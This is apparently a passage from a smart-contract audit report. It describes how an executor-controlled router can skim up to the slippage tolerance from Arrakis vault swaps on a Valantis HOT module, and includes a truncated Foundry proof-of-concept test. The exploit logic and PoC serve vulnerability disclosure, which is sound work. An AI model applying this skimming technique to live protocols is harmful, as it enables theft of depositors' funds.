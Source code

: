 `Executor call rebalance -> Arrakis Standard Manager calls swap of Valantis HOT Module -> swap function calls router set by executor for swap -> router calls Uniswap for swap -> then router returns the funds to Valantis HOT Module after swap`

Here let's say the Uniswap V3 returns the funds with 2% slippage to the Malicious *router* contract which is owned by `executor` . Now `executor` owned *router* contract returns 0.5% more funds than the *expectedMinReturn_* amount set . This enables the `executor` owned *router* contract to keep about ~2 to 2.5% of funds given for swap by the `executor` and the slippage checks at the end of the swap function is also passed as the amount returned by `executor` is more than *expectedMinReturn_* amount set . 

Now let's write a simple POC of the same , for this we'll edit the already setup integration tests for the POC .
Here instead of using an external swapper, the router contract used is given enough token1(WETH in this case) , to carry out the swap . Also the *maxSlippage* is set to 10% by the protocol here . 
-> The exchange rate between token0(USDC) & token1(WETH) is assumed to be 2000:1 . 
-> Swapping is done with 1000e6 of USDC . So the exact amount that can be received in ideal situation is 0.5e18 of WETH , but to consider slippage , the executor sets the *expectedMinReturn* with 5% slippage . 
-> Now after swapping the *router* contract returns the WETH with a slippage of 4.5%  , thereby keeping those funds to itself . Hence draining funds. 
Put these two code snippet in `test/integration/ValantisIntegrationPublic.t.sol` & comment out the `swap router mock` function made by the protocol at : 
https://github.com/sherlock-audit/2024-03-arrakis/blob/main/arrakis-modular/test/integration/ValantisIntegrationPublic.t.sol#L949C4-L956C36

```solidity
    // region router not checked 
    function test_routerNotChecked() public {
        // #region mint.

        address user = vm.addr(uint256(keccak256(abi.encode("User"))));
        address receiver =
            vm.addr(uint256(keccak256(abi.encode("Receiver"))));

        deal(address(token0), user, init0);
        deal(address(token1), user, init1);

        address m = address(IArrakisMetaVault(vault).module());

        vm.startPrank(user);
        token0.approve(m, init0);
        token1.approve(m, init1);

        IArrakisMetaVaultPublic(vault).mint(1e18, receiver);
        vm.stopPrank();

        // #endregion mint.

        //(uint160 sqrtSpotPriceX96,,) = alm.getAMMState();

        bool zeroForOne = true; // USDC -> WETH.
        uint256 expectedMinReturn = 0.475 ether;                                   // <@audit - here
        uint256 amountIn = 1000e6;
        address router = address(this);                                            // <@audit - here

        uint160 expectedSqrtSpotPriceUpperX96 =
            1_771_595_571_142_957_102_904_975_518_859_264;
        uint160 expectedSqrtSpotPriceLowerX96 =
            1_771_595_571_142_957_102_904_975_518_859_264;
        bytes memory payload =
            abi.encodeWithSelector(this.swap.selector);

```